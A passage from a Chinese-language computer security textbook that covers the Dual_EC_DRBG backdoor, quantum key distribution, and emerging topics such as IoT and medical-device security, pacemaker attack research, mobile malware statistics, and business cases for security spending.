约翰霍普金斯大学的密码学家 Matthew Green 教授总结了明显的弱点，并解释了缺陷链 [GRE13]，最终归结为“缺陷 #4：如果你知道 `Dual_EC` 参数的某个特性，并能恢复一个输出点，你就可以预测生成器的所有后续输出。”该缺陷公布后不久，`NIST` 建议“基于公众担忧和对算法的评估，`NIST` 提议移除双椭圆曲线确定性随机比特生成器（`Dual_EC_DRBG`）。”此后 `NIST` 重写了其随机数生成器建议，移除了 `Dual-EC`。

加剧该问题严重性的是，Joseph Menn 在《路透社》报道称，`NSA` 向 `RSA` 支付了 1000 万美元，表面上是为了让 `Dual-EC` 成为 `RSA` 密码学工具包 `BSAFE` 中分发的默认随机数生成器。此后 `RSA` 已从 `BSAFE` 库中移除了 `Dual-EC`。

我们描述此问题旨在展示攻击者如何有效地规划和实施攻击。表面上插入的缺陷之微妙，再次印证了我们在本书其他地方所述：开发密码学非业余爱好者所为，因为即便是专业人士也难以洞察潜在缺陷。

## 12.6 量子密码学

我们现在转向一种基于物理学进步的新兴密码学形式。一些分析师称这种密码学有可能彻底改变加密和密码分析，尽管其他人怀疑它短期内不太可能变得实用。

我们已见研究人员如何依赖数学层面生成难题并设计算法。本节我们将探讨未来密码学可能的另一种实现视角。文中描述的方法目前尚未上市，未来几年内也大概率不会上市。但它阐释了在发明新加密技术时进行创造性思考的必要性。尽管该方法背后的科学原理深奥，但方法本身其实相当简单。

这种新方法——量子密码学，在某种程度上是一次性密码本思想的变体。回顾本章前文，一次性密码本是唯一可被证明不可破解的加密方案。一次性密码本需要一长串不可预测数字的两份副本，发送方和接收方各持一份。发送方将一个数字与一单元明文结合生成密文。若数字*真正*不可预测（即绝无可辨识模式），攻击者便无法将数字与密文分离。

该方法的难点在于鲜有可共享的随机数字串来源。许多自然现象可产生不可预测的数字串，但随之而来的问题是如何将该串传递给接收方，使截获者无法获取。量子密码学同时解决了生成和通信数字的问题。Wiesner 在 1980 年代首次探索了此思路 [[WIE83]](#bib01.html#bib_658)；十年后 Bennett 进一步发展了该想法 [[BEN92a]](#bib01.html#bib_56), [[BEN92b]](#bib01.html#bib_57)。

### 量子物理学

与其他密码学方法不同，量子密码学基于物理学而非数学。它利用我们对光粒子行为的认知。光粒子称为光子。它们在空间传播，向各方向振动；我们称其具有主振动的方向取向。尽管光子方向取向可为 0° 至 360° 任意值，为便于解释，我们假设仅有四种方向取向（将实际取向四舍五入至最近的 90°）。我们用四个符号表示这四种取向：`↔`、`↕`、`↗` 和 `↘`。`↔` 和 `↕` 光子可高确定性区分。然而，`↗` 和 `↘` 光子有时会呈现为 `↔` 或 `↕`。同理，`↗` 和 `↘` 可相互区分，但有时 `↔` 和 `↕` 会被识别为 `↗` 或 `↘`。幸运的是，这些缺陷实则为密码算法提供了部分混淆性。

**偏振滤波器** 是一种接受任意光子为输入、仅输出特定种类光子的设备或过程。光子滤波器有两类：`+` 和 `×`。`+` 滤波器能准确区分 `↔` 和 `↕` 光子，但有 50% 几率将 `↗` 或 `↘` 误判为 `↔` 或 `↕`；反之，`×` 滤波器能区分 `↗` 和 `↘`，但也可能接受一半的 `↔` 和 `↕` 光子。可将 `+` 滤波器类比为窄水平狭缝：`↔` 光子易滑过，`↕` 光子总被阻挡。有时（约一半概率），`↗` 或 `↘` 光子因振动方式得以穿过狭缝。`×` 滤波器则类似垂直狭缝。

### 光子接收

量子密码学通过从发送方向接收方发送光子流运作。发送方使用偏振滤波器控制发送光子种类。接收方任选一滤波器并记录接收光子的取向。接收方是否选用与发送方相同滤波器无关紧要；关键在于接收方是否碰巧选用了与发送方同类型的滤波器。

量子密码学最重要的特性是：任何人窃听通信都会影响通信本身。借助简单的错误检测编码，发送方和接收方即可轻松判断是否存在窃听者。海森堡不确定性原理指出：我们无法同时知晓粒子在任一时刻的速度与位置；一旦测量速度，位置已改变；一旦测量位置，速度已改变。基于此原理，测量粒子任一属性都会影响其他属性。例如，测量光子取向会影响该光子。水平狭缝滤波器阻挡所有 `↕` 及一半 `↗` 和 `↘` 光子，从而影响透过的光子流。发送方知晓发送内容，接收方知晓接收内容，但窃听者会极大地改变光子流，使发送方和接收方极易察觉有人在监听。

让我们看看这种非同寻常的方法如何用于密码学。

### 利用光子进行密码学

该密码算法效率不高，传输比特中过半以上未用于密码学。所传输的比特是光子，好在光子极易获取。

假设发送方 Sam 生成一系列光子并记录其取向。Sam 与接收方 Ruth 约定：`↔` 或 `↗` 代表 0，`↕` 或 `↘` 代表 1。此类序列如图 12-9 所示。


现在，Ruth 随机使用其偏振滤波器 `+` 和 `×` 并记录结果。请记住，`+` 滤波器能准确区分 `↔` 和 `↕` 光子，但有时也会将 `↗` 或 `↘` 判定为 `↔`。因此 Ruth 无法知晓测得结果是否为 Sam 所发。Ruth 所选滤波器及获得的结果如图 12-10 所示。


部分结果正确、部分错误，取决于 Ruth 所选滤波器。随后 Ruth 将所用滤波器类型告知 Sam，如图 12-11 所示。


Sam 告诉 Ruth 她使用的正确过滤器是哪些，如图 12-12 所示，Ruth 据此可以确定获得的哪些结果是正确的，如图 12-13 所示。在本例中，Ruth 恰好十次中有六次选择了正确的过滤器，略高于预期，因此传输的十个光子中有六个被正确接收。请记住，`↔` 或 `↗` 表示 0，而 `↕` 或 `↘` 表示 1，Ruth 可以将光子转换为比特，如图所示。一般来说，传输的光子只有半数能被正确接收，因此该通信信道只有半数带宽承载有意义的数据。


请注意，Ruth 可以告诉 Sam 她使用了哪些过滤器，而 Sam 可以告诉 Ruth 其中哪些会产生正确结果，且无需透露任何关于实际传输比特的信息。这样，Sam 和 Ruth 可以*谈论*他们的传输，而窃听者无法知道他们实际共享的内容。

### 实现

量子密码学的理论是可靠的，但在该方案付诸实践之前，仍需解决一些技术难题。要实现量子密码学，我们需要一种随机但可检测定向的光子源（用于发送方）以及一种可靠过滤接收光子的方法。光子枪可按需发射光子。有多个不同的研究团队正在致力于开发用于密码学的光子枪，但迄今为止尚无一家成功。目前的最佳技术涉及脉冲激光器，但这里也存在问题。激光器偶尔会发射不是一个而是两个光子，这会干扰接收和传输的模式。然而，通过对比特流使用纠错码，相对容易检测并纠正少量错误比特。

在接收端也存在问题。一种设备会发生灾难性故障，导致其发出电流浪涌。虽然这种浪涌很容易被检测到，但它要求重置设备，这需要时间。

量子密码学的实验性实现仍处于实验室阶段。英国马尔文国防评估研究局演示了通过大气层在 2 公里距离上的成功通信，美国洛斯阿拉莫斯国家实验室正在测试一种便携式设备，可在晴朗的夜晚运行 45 公里。美国国家标准技术研究所演示了一种量子密码系统，可通过玻璃光纤在一公里范围内以每秒四兆比特的速率运行。BBN Communications 和哈佛大学已启用一个由量子加密保护的联合网络。该网络有六台服务器，覆盖距离十公里。已实现高达 20 公里的可靠通信，一些科学家预计在不久的将来能够可靠地覆盖 50 公里。（关于量子密码学潜力的讨论，请参阅 [ELL04]。）

这些结果表明，随着量子密码学从研究工作台走向原型实验室，已取得显著进展。尽管仍未准备好供大规模公众采用，但量子密码学正在成为未来十年内商业用途的现实可能性。

## 12.7 结论

正如我们在本章开头所说，密码学是一个高度专业化的研究领域。即使在本详细章节中，我们也仅展示了这一丰富领域的最顶层。

与本书其他章节不同，本章不包含练习。破译密码的问题很快就会变得困难。涉及本章中任何密码手工计算的练习既耗时又枯燥；这些问题的教育价值是有争议的。而要求你找出一种算法的缺陷或发明一种新算法来完成某项任务的问题，是研究生论文的主题，而非课程练习。我们知道我们的读者能回答死记硬背类的问题，而除此以外的任何问题工作量都太大。

想深入了解密码学的读者应研读该主题的更高级书籍，但请记住，许多书籍需要扎实的数学背景。对于这一极有趣领域的历史，我们推荐 David Kahn 的百科全书式著作《破译者》[KAH96]。

在本书的最后一章中，我们将提出四个我们没有答案的主题。这些是具有重要计算机安全问题的主要主题领域。我们鼓励所有读者参与其中，帮助确保随着这些领域本身的成熟，其安全方面得到解决。

## 13. 新兴主题

***

在本章中：

*   物联网
*   网络安全经济学
*   计算机化选举
*   网络战

***

在本章中，我们提出计算机安全领域中一些新出现的问题。所谓“新出现”，是指这些领域开始在安全社区之外得到认可，但我们并不意味着已有解决方案，甚至没有解决安全问题的方法。相反，我们将这些作为值得随时间观察的有趣事物提出来。在本章中，我们将讨论所谓的物联网（在新技术中嵌入联网计算技术的趋势）、网络安全经济学、电子投票，以及许多人所谓的网络战（在政治冲突中使用计算机）。

我们还要指出，这些并非新问题。事实上，我们用一个发生于 20 世纪 80 年代中期的例子来开启物联网的介绍，而电子投票自 20 世纪 90 年代以来已在世界各地出现。

将某个主题带入本章的原因是它尚未定论：不存在共识表明我们知道开发何种电子投票技术，甚至不知道如何着手。监管是答案吗？立法？市场力量？公开演示？学术研究？在特定情况下，以上皆是。因此，我们介绍几个主题，并指出一些问题，你们很可能会参与寻找这些问题的答案。但我们现在不试图回答这些问题，因为为时过早。需要更多的理解，我们希望我们的某些读者能接受这些挑战，增进这种理解，并随时间推移或许甚至设计出有效的政策和解决方案。

与许多早期的安全问题一样，技术和功能正在快速发展。正如我们在前几章所见，安全顾虑可能直到发生严重安全问题时才引起公众注意，届时将安全技术集成到该领域的能力将已错失，或比从一开始就构建安全要困难得多。换句话说，保护新兴技术的过往经验并不令人乐观。我们希望这种模式能改变，并且你们作为当前和未来的安全专业人员，能努力确保随着技术演进，安全问题得到解决。

### 13.1 物联网


# 物联网

**物联网** 是指将日常设备连接到互联网，构建一个所谓的智能设备世界。处理器成本低廉，工程师们设想通过将这些处理器嵌入日常设备中，提供新的产品和服务。请考虑这些支持互联网的产品可能性：

> **物联网：一个由相互连接的智能设备组成的世界，这些设备通常不被视为计算机。**

## 智能应用场景

### 智能家电

您的冰箱可以感知牛奶即将用完，并将其添加到您的电子购物清单中。您的洗碗机会选择在电力需求较低时运行（例如深夜），以将用电量从高峰时段转移出去。

### 智能家居

您的家庭安防系统在感知到入侵或异常时会向您报告。您的供暖系统会与您的日历协调，在日历显示您外出时降低恒温器温度。

### 智能医疗

您的运动监测仪与跑步机交互，随着您体能的改善使锻炼更加剧烈。您的血糖监测仪将报告发送给您的医生。

### 智能交通

汽车、火车、公共汽车和飞机无需人类驾驶员即可运行，能感知不利交通状况并重新规划公共交通路线（同时向等候的乘客发送报告，通知他们修订后的到达时间和替代上车地点）。

### 智能娱乐

您的视频录像机可预测并录制您想观看或可能想观看的节目。您的虚拟礼宾代订门票（并为您安排约会），带您观看它推断您会喜欢的演出。

### 智能计算机

您的计算机管理本地和基于互联网的数据存储，以优化检索时间和本地资源的使用。您的计算机利用空闲执行周期，为解决全球计算密集型问题做出贡献。

这些应用似乎都是用户至少部分会接受的高尚活动。但戴上安全帽子审视时，您可能会发现每个应用都有负面影响，例如：

## 潜在风险

### 隐私丧失

得知您的锻炼频率或强度不如预期，您的保险公司提高了您的保费。

### 控制权丧失

您在计算机上保存敏感数据。您最初的自动备份协议仅涉及国内数据存储，但备份公司被一家新的外国所有者收购，该国的数据保护政策不可靠。

### 被颠覆的可能性

恶意政府通过控制在线新闻源提供的内容，植入倾向性甚至虚假的故事，影响公民舆论。

### 身份误判

您与一位品味不同的房客共用一台计算机，导致录制了不合适的节目，而您喜欢的节目却未被录制。

### 访问失控

您的恒温器与日历之间的通信被第三方拦截，对方意识到您家中无人，趁您外出时实施入室盗窃。

在接下来的章节中，我们将提供两个当前技术的示例，向您展示几个已知的安全弱点。

## 医疗设备

计算机的支持使医学领域取得了显著进步。数字控制和增强扫描让医生以前所未有的方式“看清”患者的解剖结构。计算机控制的“伽马刀”比传统方法能实现更精确、创伤更小的手术。心脏起搏器延长了许多患者的生命。但这些技术进步也存在潜在的负面影响。

### 程序安全性故障

我们在此列举一组来自安全领域（与安全性相似但不同的学科）的事件。在安全领域，没有试图利用缺陷的恶意行为者，只有普通人按其认为正确的方式做普通事。我们描述的问题非常严重（有些导致患者死亡），引发了仔细的公众审查，因此我们可以看到导致这些事件的确切缺陷。此次安全审查中提出的编程和系统困难，与安全分析师可能提出的问题没有区别：恶意代理如何导致这些设备故障？因此，我们建议您每次听到由自然原因引起的安全问题时，都要考虑安全性问题：怀有恶意的人能否利用相同的缺陷？

**Therac-25** 是一台放射治疗机。它可在两种模式下使用：诊断模式和治疗模式。在诊断模式下，它提供适合拍摄 X 光图像的小剂量辐射；在治疗模式下，它提供旨在破坏组织的较大剂量辐射。该机器由计算机控制，用户（放射治疗技师）通过计算机键盘和屏幕输入指令。

1985 年至 1987 年间，发生了六起涉及 **Therac-25** 机器的严重辐射事故。Nancy Leveson 对这些事故的原因进行了广泛分析 [[LEV95]](#bib01.html#bib_366)。事故由不同原因引起，包括误导性的用户（操作员）界面、程序例程间的竞争条件、传感器的错误（软件）识别、键盘识别故障以及对软件的过度依赖。在至少一起案例中，由于急于发布软件补丁修复缺陷，而非进行更彻底的系统级问题分析，导致安全问题恶化。（此处的仓促修补正是计算机安全社区所称的“渗透和修补”，这是我们在 `第 3 章` 中谴责的一种方法。）我们在此不详述所有软件问题，但建议您阅读 Leveson 的深入分析。

您可能会因这些事件年代久远而予以忽视，认为软件开发已有显著改进。确实，软件工程发生了重大变化，出现了新语言、更强大的程序开发工具、可复用代码库、开源软件，以及不同的测试工具和方法。然而，几乎每周都有报纸文章报道由软件故障引起的事件。可以认为，**Therac-25** 控制软件的开发者知晓其代码将控制辐射机械，而辐射机械既能救命也能致命。程序员本应对其编写的代码保持极度谨慎，但仍出现了多个故障。软件开发的质量过去不完美，现在依然不完美。

这些问题不仅仅是安全问题。操作这些机器的技师没有恶意动机。但他们本可以有：有动机的代理可能专门在医院谋得技师职位，利用这些故障针对人类目标发动攻击，造成完全相同的后果。

> **如果安全问题可被攻击者利用，则很容易演变为安全性问题。**

### 程序安全性故障

2013 年 2 月，IOActive 安全研究公司的员工 Barnaby Jack 撰文分析了电视剧《国土安全》最近一集的情节。剧中，有人通过远程笔记本电脑控制美国副总统的心脏起搏器（一种调节心律的植入式设备）将其杀害^1。Jack 分析了情节要素，认定该攻击基本可行，仅忽略了为电视效果做出的几处微不足道的修改。Jack 提出的唯一严重问题是距离；攻击者需要在目标约 15 米（50 英尺）范围内。

1. 这一情节并非不切实际：2001-2009 年担任副总统的 Dick Cheney 患有心脏病，植入了心脏起搏器。

全球每年植入约 60 万个心脏起搏器（并非都具备除颤功能）。起搏器接收并响应植入心脏的电极信号。然而，出于监控和维护目的，它们也通过无线电信号输入输出执行控制功能。读过 `第 2 章` 后，您现在应该会问：“标识和认证？”

Daniel Halperin 和同事 [HAL08b] 研究了植入式心脏复律除颤器（ICD，也称为增强型起搏器）的安全性。他们首先考察了拥有商用设备的人可能发起的潜在攻击，该设备旨在让医疗专业人员监控和重新编程 ICD 设备。毫不奇怪，他们发现拥有此类设备的人不仅能从该设备中确定序列号、患者病史和患者标识符，还能更改设备设置、更改治疗方案，并向患者施加电击。除最后一项外，这些都是你可能期望一种专门制造用于控制 ICD 的设备所具备的功能，而最后一项是外科医生植入该设备时使用的正常测试功能（以确保其正常工作）。

随后，研究人员放弃了商用控制器，开始在实验室（而非植入人体）中对 ICD 进行详细的安全分析，以推断通信协议和命令。令人惊讶的是，他们成功确定了该设备的所有命令和控制序列，并利用这些序列通过他们用现成的消费电子元件组装的计算机-无线电组合与设备进行通信。

为了证明其安全研究的有效性和严重性，研究人员展示了他们能与植入一大块肉中的 ICD 设备进行通信，以模拟植入人体组织中的设备。他们演示了禁用设备自动除颤功能的能力，然后利用 ICD 施加 173 伏电击（这会导致心脏不规则跳动，即一种称为心房颤动的病症）。换句话说，在这个实验中，他们关闭了起搏器对心房颤动的正常反应，然后让患者陷入正是这种病症，这种攻击若针对人类目标很可能是致命的。

研究人员还探索了保护 ICD 的方法。在一种他们称为“零功耗认证”的技术中，研究人员利用 RFID 设备产生的电力（见 `第 9 章`）执行基于加密的认证。功耗是植入式设备的一个重大限制，这些设备靠电池供电，必须节省使用电池以最大化电池寿命。因此，在不消耗 ICD 电池电量的情况下执行强认证，是对这些设备安全性的可靠贡献。制造商尚未表明采用了这种增强设计。

研究人员描述了其他方法，以在疑似攻击时通知患者并增强其加密防御的强度。因此，这项研究不仅揭示了一个关键问题，还提出了制造和设计界应对该问题的方法。（该论文是负责任的安全研究的杰出范例，因为它将问题推进到了潜在攻击之外，通过可行的防护设计替代方案加以解决。）

这支由九位合著者组成的研究团队彻底分析了一款设备；市场上有许多此类设备。通过相关设备还可能发起其他攻击，这些设备可以收集传感器数据并将其馈送给智能手机或通过互联网传送到收集中心（如云端）。例如，`Fitbit` 设备可追踪运动和饮食，包括心率和呼吸频率。阿拉巴马大学亨茨维尔分校已开发出一种用于收集心脏状态数据的原型设备。2013 年 `BlackHat` 黑客大会有两场关于攻击医疗设备的演讲。

在 2012 年设计自动化大会上，Wayne Burleson 和同事发表了一篇综述论文，阐述了开发安全植入式医疗设备面临的挑战 [BUR12]。功耗是使用许多可能防御这些攻击的安全技术（如本书所述的加密和持续认证）的重大限制。医疗设备特有的一个问题是，它们需要让医疗人员能在危及生命的情况下及时使用设备治疗患者。

这些问题并不容易解决，而针对这些问题的研究人员数量相对于目前市场上和正在开发中的新医疗计算应用数量来说很少。

## 移动电话

智能手机构成了物联网中第二个快速增长的产品领域。正如设计师们有兴趣将智能手机集成到医疗监测场景中，理由是许多用户已拥有智能手机，且智能手机具备收集和分析数据的可用算力，其他产品和服务提供商也有同样的想法：在现有技术基础上搭便车开发产品和服务。

但在意想不到的方式下使用现有技术存在危险。正如我们在 `第 5 章` 所述，操作系统不仅仅用于传统计算机。某种形式的操作系统运行在许多具有计算机功能的产品上。在本节中，我们关注一类极其流行的设备：智能手机、平板电脑、上网本、电子阅读器、便携式视频游戏机及类似产品。

如果你有智能手机，你会熟悉在后台运行任务的操作系统（例如，连接本地蜂窝电话服务，并在你移动时处理从一个基站到另一个基站的切换），按需运行任务（如处理电子邮件或浏览网页），执行监控和记账功能（包括获取电子邮件和状态更新或统计已用通话分钟数）。但大多数人不认为这种设备有操作系统，因为与计算机的操作系统不同，手机的操作系统不会显式地呈现为一个操作系统。你不需要登录，没有用于执行命令的命令行，无法轻易查看或更改当前任务列表，没有可调整的操作系统功能或参数，任务或进程调度是不可见的，你也无法查看或解读智能手机的内存管理。因此，移动电话操作系统似乎不具备我们在本章前面描述的大多数功能。然而，不要被迷惑。移动电话确实拥有强大的操作系统。

### 用户和用途

目前所有移动电话产品中最流行的三大操作系统是 `Android`（由 `Google` 提供）、`Windows`（`Microsoft`）和 `iOS`（`Apple`）。Gartner Group 预测 2014 年的销量将达到近 11 亿部 `Android`（占总量 61%）、3.6 亿部 `Windows`（20%）和 3.3 亿部 `iOS`（18%）（*CNet News*，2014 年 1 月 7 日）。仅考虑智能手机，各自的市场份额分别为 `Android` 85%、`Windows` 3% 和 `Apple` 12%。

一份 `Juniper Networks` 报告描述了 2012 年对 4000 多名移动设备用户进行调查的结果 [JUN12]。报告指出，76% 的受访者表示曾使用移动设备访问敏感数据，如银行信息或医疗记录。超过 89% 的企业员工报告曾使用移动设备访问敏感公司信息。其中，41% 表示未经公司许可这样做。与此同时，安全管理者对移动电话使用导致敏感数据泄露表示担忧，原因包括设备丢失（41%）、无法管理不同的设备、操作系统和协议（37%），以及员工通过这些设备引入恶意软件的风险（32%）。

# 13.2 经济学

安全专业人员必须就他们设计、构建、使用和维护的计算机、系统或网络做出各种安全决策。在本节中，我们重点关注将稀缺财务资源分配给网络安全所涉及的决策。也就是说，您必须根据需求、成本以及与其他投资（这些投资可能与安全无关）的权衡，决定投资哪些类型的安全控制。

## 移动恶意软件

用户对安全的关注主要源于关于移动设备上恶意软件的报道。关于恶意应用程序（称为 `apps`）的报道来自所有主要的防病毒产品和分析公司。`卡巴斯基实验室`（一家主要的防病毒产品和研究公司）的 `Victor Chebyshev` 和 `Roman Unuchek` 研究了他们实验室在 2013 年发现的移动设备恶意软件 [CHE14a]。该实验室在 2013 年日历年内识别出了 143,211 种不同的新型恶意软件。因此，针对移动设备的攻击肯定是大量存在的。

绝大多数攻击针对 `Android` 设备，其比例远超其市场份额。根据 `卡巴斯基` 的统计，所有移动平台恶意软件中有 98.05% 以 `Android` 为目标。正如 `Chebyshev` 和 `Unuchek` 所言，这一数字“[证实]了这种移动操作系统的流行度及其架构的脆弱性。”这里的架构也指操作系统允许安装的应用类型。我们首先探讨 `Apple` 和 `Windows` 为何拥有如此显著更低的恶意软件数量。

## 应用程序来源

`Apple` 仅允许从其应用商店加载应用到其设备上。开发者提交应用供审核；审核通过后，`Apple` 将应用上架至其应用商店，用户可由此下载并安装。截至本书撰写之时，`Apple` 在其网站上（`https://developer.apple.com/appstore/resources/approval/index.html`）报告称，它已在五个工作日内完成了 93% 的新应用和 98% 的现有应用更新的审核。（审核完成意味着该应用要么被接受通过 iOS 应用商店分发，要么被拒绝并退回给提交者。）`Apple` 表示拒绝的理由包括：传播色情内容的应用，以及在功能和易用性上与现有应用显著重复的应用。`Apple` 未公开审核批准流程的细节，尽管审批速度和应用数量暗示该流程的安全性方面不可能过于严格。正如我们在前几章所见，无论审核多么广泛，都无法保证万无一失的安全。

一经批准，应用即被签名，采用的证书方法类似于 `第 2 章` 所述。操作系统在将应用安装到移动设备前会检查其证书，因此只有授权开发者和授权代码才能运行。签名还能防止对现有应用的恶意篡改（篡改后的应用将不再与原始签名匹配）。

`Apple` 可以相对轻松且快速地将应用从应用商店下架，但似乎无法从用户设备中移除恶意应用，而是要求每位用户自行移除。

`Google` 对应用审核的方式截然不同。`Google` 允许用户从任何来源下载和安装应用；全球存在大量 `Android` 应用来源。恶意软件研究人员报告称，游戏和娱乐是最常感染恶意软件的应用类别，毫不意外，这一类别在 `Android` 应用的第三方商店中也占很大比例。

没有中央机构监控 `Google` 应用的安全性，这无疑是导致 `Android` 手机恶意软件占比过大的主要因素。

## 智能手机设备

开发者不仅急于让应用在智能手机上可用，技术专家也在争相将智能手机集成到其他活动中。照片识别软件可让您识别并标记照片中的好友。当然，您可以利用手机的定位组件在迷路时导航（假设您有连接），但这项技术也可能让跟踪者全天候追踪您的行踪。您可以通过智能手机监控家庭安防系统，或追踪各种健康指标（如皮质醇水平或心率）。但将更多个人数据推送到移动设备上，会增加被拦截甚至遭受不必要干扰的风险。例如，攻击者可远程禁用您的家庭安防系统随即闯入。您的设备可能暗中将您的健康统计数据提供给保险公司，后者可能因您运动时心率未充分上升而提高您的保费。

## 物联网中的安全

我们刚才考察了属于物联网一部分的两项技术。开发者和用户设想，让医疗设备接入互联网能带来重要益处。移动电话用户已享受运行应用的优势。随着更多设备联网，人们很可能会为新能力所着迷。

技术往往伴随利弊。随着我们向一台恰好具备电话功能的手持计算机添加更多功能、个人数据和敏感功能，我们也就受制于该计算机的弱点和局限。威胁面分析（`第 1 章`）、薄弱的标识与认证（`第 2 章`）、安全软件开发实践（`第 3 章`）以及操作系统结构与保障（`第 5 章`）的教训，可能为急于将功能扩展到用户随身携带的平台上的应用开发者所不知。如果技术专家不了解或学习安全教训，他们极有可能生产出不安全的产品，并导致潜在的灾难性后果。

随着物联网的发展，用户和开发者应保持谨慎。正如前面的例子所示，一旦不安全的概念或方法在产品中确立，要保障该技术的安全将变得极其困难。

例如，首席执行官可能会宣布，因为公司业绩良好，有一笔资金可供投资以造福公司。她征求提案，要求不仅描述资金的用途，还要说明可能获得的收益（以及由谁获得）。你准备了一份提案，建议安装防火墙、垃圾邮件过滤器、用于创建虚拟专用网络的加密方案，以及用于远程网络访问的安全认证令牌。你描述了这些产品所应对的威胁，以及拟采取的行动将在多大程度上（从成本和公司利润的角度）使公司受益。首席执行官将你的提案与其他可能的投资进行比较：收购一家子公司以使公司能够提供新产品或服务、购置包含更大图书馆和更多计算机实验室的新办公场所，或者仅仅是持有这笔资金几年以产生回报从而使公司获利。这些选择及其之间的权衡，可以通过理解网络安全经济学来分析。但这说起来容易做起来难。

为了明白其中原因，我们首先描述什么是商业论证：即阐述我们为何认为某项特定安全投资是必要的信息框架。然后我们考察商业论证所需的要素：证明存在问题且拟议解决方案将对公司有利的数据和关系。提出商业论证不仅涉及经济学，还需要统一的术语、度量标准，以及一个据以做出明智决策的背景。商业论证建立在我们对技术的理解之上，但必须用商业语言和概念来构建框架，以便能轻松地与非安全类选项进行比较。

> **商业论证：采取某项行动的令人信服的理由。**

要为安全投资提出令人信服的商业论证，我们需要关于安全事件风险和成本的数据。不幸的是，正如我们的讨论所示，可靠的数据难以寻觅，因此我们概述了有助于安全专业人员的数据收集类型。

一旦我们有了良好的数据，就可以构建模型并进行预测。构建和使用模型涉及理解关键因素和关系；我们将讨论各自的示例。最后，我们将探索这一丰富的跨学科领域未来研究的可能性。

## 制定商业论证

公司仔细审视其在网络安全方面的投资有很多原因。表 13-1 展示了对美国制造业组织、医疗公司、大学、互联网服务提供商、电力公用事业、非营利研究机构和小企业进行的一系列深度访谈结果。结果显示，各种内部和外部压力促使组织审视其网络安全实践和产品的数量及有效性。


**表 13-1** 影响网络安全投资策略的因素（改编自 [ROW06]）


但公司如何决定在网络安全上投资多少以及以何种方式投资？通常，它们会采用某种基准测试，了解其他类似公司的支出情况；然后分配相似数量的资源。例如，如果 `Mammoth Manufacturing`（猛犸制造公司）正在评估其网络安全投资的充分性，它可能会确定（通过调查或顾问）其他制造公司通常将其信息技术预算的 *x* 百分比用于安全。如果 `Mammoth` 的投资差异很大，那么 `Mammoth` 的高管可能会质疑 `Mammoth` 的需求、实践或风险承受能力有何不同。可能是 `Mammoth` 拥有更强大的支持团队，或者仅仅是 `Mammoth` 具有更高的风险承受能力。这种分析有助于 `Mammoth` 高管决定投资是应该增加、减少还是保持不变。

公司很少发布详细的支出数据，因为他们认为这些事实可能会帮助竞争对手，且无其他积极作用。因此，安全支出数据通常来自行业团体（例如游说协会或共同利益圆桌会议）或来自 `Gartner Group` 等行业分析师的预测。因此，公司安全支出的依据难以获取或比较。

***

**很难获得用于制定企业安全支出的可靠数据。**

***

请注意，这种预算方法仅建议一个适当的支出水平。员工随后必须就具体支出做出明智、详细的决定：例如，需要什么能力、应购买和支持什么产品、以及什么样的培训可能有帮助。

但此类投资决策不是在真空中做出的。网络安全资源请求通常必须与其他业务单元的请求竞争，最终决策是根据对业务最有利的原则做出的。因此，一直以来都非常关注如何提出令人信服的论据来证明安全对业务有益。当公司必须在安全投资与其他业务投资之间取得平衡时，很难找到数据来支持此类决策。由于组织的有限资源面临诸多需求，任何资源请求都必须伴随一个良好的商业论证。针对特定支出的**商业论证**是一份证明资源使用合理性的提案。它通常包括以下项目：

- 对该支出旨在解决的问题或需求的描述
- 可能的解决方案列表
- 解决问题的约束条件列表
- 底层假设列表
- 对每个备选方案的分析，包括风险、成本和收益
- 为何拟议投资对组织有利的总结

因此，商业论证列出了管理者对提案做出明智决策所需的一切。

在许多情况下，会同时考虑多个提案，其中一些相互竞争。例如，一组可能提议实施新的网络安全，而另一组则专注于物理安全。无论提案内容如何，都必须将其构建为一个商业机会。

受人尊敬的商业出版物经常探讨技术投资问题。例如，`Kaplan` 和 `Norton` [KAP92] 建议，对现有或拟议的技术投资进行的任何评估都应同时以多种方式报告，以形成“平衡计分卡”：

- 从*客户*视角出发，解决客户满意度等问题
- 从*运营*视角出发，审视组织的核心竞争力
- 从*财务*视角出发，考虑投资回报率或股价等指标
- 从*改进*视角出发，评估投资将如何影响市场领导地位并增加价值

公司通常只关注财务视角，部分原因是其他视角不那么具体，也更难量化。正如很难获得同类公司在安全上花费多少的良好数据一样，确定哪些公司甚至哪些业务领域可能成为攻击目标以及程度如何，难度更大。（也就是说，没有依据报告称攻击者在全球范围内将 *x* 百分比的精力用于攻击金融机构，*y* 百分比用于攻击医疗机构。我们可以统计这些群体各自报告的攻击次数，但我们不知道攻击者在这些攻击中投入了多少精力。）

### 准备商业论证

Mary Ann Davidson [DAV05] 描述了 Oracle 如何评估两种不同的入侵检测系统。每个系统的价值和准确性均被评估为对公司履职能力的贡献程度。

旧系统每周产生的警报数量高得离谱，其中极大一部分——70% 到 80%——都是误报 [即：在实际上并无问题的情况下指示存在问题]。我们考察了追踪真正需要采取行动的警报所花费的成本，包括人员筛选和分析警报的成本。新产品的警报率大幅降低，误报率也更低。新产品提供的信息质量更高，成本却更低。经济分析，特别是投资回报率，帮助我们选择了新供应商而非旧供应商。

在本例中，Davidson 试图量化其员工调查警报所花费时间的价值。尽管存在误报，但投入的时间仍代表了使用旧系统所关联的成本。

一般来说，企业需要知道投入多一单位的金钱或时间是否能以及如何为其购买到更多的安全性。对安全性的影响取决于多种视角，例如对全球经济、国家经济和企业供应链的影响。侧边栏 13-1 说明了组织如何为安全技术建立商业论证。

***

#### 侧边栏 13-1 Web 应用安全的商业论证

Web 访问和身份管理公司 Cafésoft 在其企业网站上展示了 Web 应用安全的商业论证 [GWI03]。该商业论证阐述了组织保护其 Web 应用的投资回报率。论点主要有四个方面：

* **收入**：收入的增加可能源于安全性增强了对网站或公司的信任。
* **成本**：成本论点的范围不仅限于安全应用的安装、运行和维护。它还包括成本节约（例如，因安全漏洞减少而节省）、成本规避（例如，因服务台呼叫减少而避免）、效率（例如，因能处理更多客户请求而提升）和有效性（例如，因能提供更多服务而增强）。
* **合规**：安全实践可以源自组织内部、标准机构、监管机构、最佳实践，或仅仅是与其他组织达成的协议。未能实施监管要求的安全实践可能导致罚款、监禁，或影响当前和未来收入的负面宣传。未能遵守与其他组织或客户商定的标准可能导致业务流失或竞争优势丧失。
* **风险**：不实施拟议安全措施会有后果。这些后果可能涉及市场份额或生产力的损失、法律风险，或生产力损失。

为了构建论证，Cafésoft 建议建立一组 Web 应用当前运营的基准成本，然后使用一组度量指标来确定安全性如何改变该基准。例如，目前可以测量服务台请求的数量。然后，提议者可以估算消除用户自助注册和密码管理后，服务台请求的减少量。这些指南可以作为计算任何安全技术投资回报率的更通用框架。收入、成本、合规和风险是表征任何组织成本与收益的四个要素。

